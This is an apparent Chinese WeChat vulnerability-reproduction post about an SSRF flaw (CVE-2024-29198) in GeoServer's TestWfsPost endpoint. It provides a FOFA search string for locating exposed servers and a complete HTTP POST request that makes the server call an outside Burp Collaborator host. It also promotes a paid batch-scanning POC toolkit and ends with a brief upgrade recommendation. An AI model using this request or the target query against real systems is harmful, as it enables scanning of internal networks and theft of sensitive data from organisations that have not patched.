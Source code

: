 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247488656&idx=1&sn=0f20df860f2ce3b09498578185b5795d

#  GeoServer TestWFSpost 存在SSRF漏洞CVE-2024-29198 附POC  
2025-6-19更新  南风漏洞复现文库   2025-06-19 15:41  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. GeoServer简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。  
## 2.漏洞描述  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。CVE-2024-29198 中，攻击者可构造恶意请求，利用SSRF扫描内网，获取相关敏感信息。GeoServer TestWFSpost 存在SSRF漏洞。  
  
CVE编号:CVE-2024-29198  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
GeoServer  
  
![GeoServer TestWFSpost 存在SSRF漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1NicwmTsaB857hjXWic2zWXK0fBbzvPegD3VagIdFKlISqVFbzib3FTG2w/640?wx_fmt=png&from=appmsg "null")  
  
GeoServer TestWFSpost 存在SSRF漏洞  
## 4.fofa查询语句  
  
app="GeoServer"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/geoserver/TestWfsPost  
  
漏洞数据包：  

```
POST /geoserver/TestWfsPost HTTP/1.1User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept-Encoding: gzip, deflateAccept: */*Connection: closeHost: xx.xx.xx.xxContent-Length: 86Content-Type: application/x-www-form-urlencodedurl=http%3A%2F%2F292945631dwdos3smercxerzh4jj9t2vpzg56tv.burpcollaborator.net&body=123
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1olbNxq8KDDGeXGymlJURlGYWH351toEfIsOcXnpcib9eMldzPZKzBibw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
dns平台收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aDvZONOnYfauEefRbSb9r11So8jjNcbCPfzVmb9tJaanwWNgK405ibDia5RoibQMObQV7wnOr5YjTZg/640?wx_fmt=png&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1mrHTibmxO5GraIah5ia83oWLy8nMJH9ml2EysDUmHBktKn9P8G8CL1cw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1mTMlQzCQPzgJt7crtvpMibgn06QHHAz9hdlgFugaudYReE1hEXbhOYQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1Yw2FYMJiaMmR5vYuvp0p8ZWJBKgficCtC2diayuuXTxcfn1U3wrnBicmUg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r18gwwSgsRhpAmRibhrUH3M2B8Pia6HN7FYV4sE8RgCQiar8dH3o8XTARmA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1icBNMZCS6EUQVyTnfiaJFNpl0bu4RVyEFoIOqibQb5Bicy9ODSsqR2hpNg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
官方已发布安全更新，建议升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  
